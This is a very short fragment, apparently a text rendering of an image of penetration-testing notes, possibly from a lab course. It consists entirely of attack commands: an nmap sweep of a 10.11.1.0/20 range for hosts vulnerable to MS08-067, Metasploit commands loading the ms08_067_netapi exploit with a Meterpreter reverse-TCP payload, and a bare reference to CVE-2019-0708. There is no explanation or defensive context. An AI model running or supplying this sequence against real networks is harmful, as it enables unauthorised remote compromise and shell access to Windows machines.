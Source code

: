 	>nmap -sT -p 445,139 -open -v -Pn --script=smb-vuln-ms08-067.nse 10.11.1.0/20
	>use exploit/windows/smb/ms08_067_netapi
	>set payload windows/meterpreter/reverse_tcp
	CVE-2019-0708
